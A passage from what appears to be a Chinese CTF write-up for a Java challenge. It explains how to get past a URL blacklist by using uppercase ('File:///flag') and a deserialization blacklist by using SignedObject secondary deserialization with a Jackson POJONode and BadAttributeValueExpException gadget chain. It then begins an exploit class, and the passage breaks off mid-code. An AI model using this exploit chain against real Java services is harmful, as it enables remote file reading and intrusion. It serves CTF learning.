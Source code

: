 [![](assets/1709112106-309464d3d9ca38c39e61a6da374b6392.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195835-8948b6ea-d567-1.png)

那么限制我们来罗列一下

1.  可以打 URL 的一个读取文件，但是有一个黑名单拦截，但是大写即可绕过
2.  反序列化存在黑名单，但是可以打 SignedObject 的二次反序列化来触发`URLHelper`​类
3.  如何拼接 SignedObject 链呢？查看依赖发现存在 Jackson 链，想到`BadAttributeValueExpException`​ 配合 `POJONode`​ 链

那么问题就解决了，编写下 EXP

```plain
package com.yancao.ctf;

import com.yancao.ctf.bean.URLHelper;
import com.yancao.ctf.bean.URLVisiter;
import com.fasterxml.jackson.databind.node.POJONode;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.*;
import javassist.*;

import javax.management.BadAttributeValueExpException;

public class exp
{
    public static void main(String[] args) throws Exception {
        URLHelper urlHelper = new URLHelper("File:///flag");
        urlHelper.visiter = new URLVisiter();

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
```